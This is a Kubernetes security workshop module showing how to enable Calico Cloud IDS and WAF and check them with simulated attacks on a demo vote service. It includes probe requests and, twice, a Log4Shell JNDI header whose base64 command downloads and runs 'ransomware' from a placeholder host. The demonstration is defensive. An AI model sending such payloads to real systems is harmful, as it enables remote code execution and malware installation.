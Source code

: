 # Module 5 - Configuring IDS protection and Workload-Centric WAF

Security teams need to run DPI quickly in response to unusual network traffic in clusters so they can identify potential threats. Also, it is critical to run DPI on select workloads (not all) to efficiently use cluster resources and minimize the impact of false positives. Calico Cloud provides an easy way to perform DPI using Snort community rules. You can disable DPI at any time, selectively configure for namespaces and endpoints, and alerts are generated in the `Alerts` dashboard in Manager UI.

For this workshop, we will enable the IDS for the vote service and observe the alerts being created when trying to exploit some vulnerabilities.

1. First enable the `Intrusion Detection`

   ```yaml
   kubectl apply -f - <<-EOF
   apiVersion: operator.tigera.io/v1
   kind: IntrusionDetection
   metadata:
     name: tigera-secure
   spec:
     componentResources:
     - componentName: DeepPacketInspection
       resourceRequirements:
         limits:
           cpu: "1"
           memory: 1Gi
         requests:
           cpu: 100m
           memory: 100Mi
   EOF
   ```

2. Next, create a `DeepPacketInspection` for the vote application in the vote namespace.

   ```yaml
   kubectl apply -f - <<-EOF
   apiVersion: projectcalico.org/v3
   kind: DeepPacketInspection
   metadata:
     name: dpi-ids-vote
     namespace: vote
   spec:
     selector: app == "vote"
   EOF
   ```

3. Test the IDS emulating an attack to the vote service:

   - Open a new Cloud Shell session and start a pod to simulate an attack on the vote service.

     ```bash
     kubectl exec attacker -it -- /bin/bash
     ```

   - From pod attacker's shell, execute the following commands.

     ```bash
     curl -m2 http://vote.vote/cmd.exe
     curl -m2 http://vote.vote/NessusTest
     ```

   - Observe the results in the Service Graph to see the generated alerts that will warn you about the exploitation attempt.

---

A web application firewall (WAF) safeguards web applications against a range of application layer attacks, including cross-site scripting (XSS), SQL injection, and cookie poisoning. Given that application attacks are the primary cause of breaches, protecting the HTTP traffic that serves as a gateway to valuable application data is crucial.

Calico Cloud WAF allows you to selectively run service traffic within your cluster and protect intra-cluster traffic from common HTTP-layer attacks. To increase protection, you can use Calico Cloud network policies to enforce security controls on selected pods on the host.

1. Before protecting the service with the WAF, try the following command from the attacker shell. This request will simulate a LOG4J attack.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```
   
   Observe that the result was an HTTP 200 - Ok . The malicious request was not blocked.

2. Enable the WAF in the Calico Cloud UI.

![enable_waf](https://github.com/tigera-solutions/cc-aks-compliance-workshop/assets/104035488/a8c3eca4-b156-4bf4-bd72-a197c5c34402)

3. Verify that the service selected includes the frontends `vote` and `result` of our example application and click `Confirm Selection`.

![selected_service](https://github.com/tigera-solutions/cc-aks-compliance-workshop/assets/104035488/467002cf-d4a1-4ee5-9ccb-c789c032f2a4)


4. Go back to the attack pod, and repeat the request.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```
   
   You will note that the result will be an HTTP 403 - Forbidden. This response returns from the WAF.

--- 

[:arrow_right: Module 6 - Quarantine Infected Workloads and KSPM](/mod/module-6-quarantine-kspm.md)  <br>

[:arrow_left: Module 4 - Security Guardrails for Network-based Threats](/mod/module-4-security-guardrails.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  
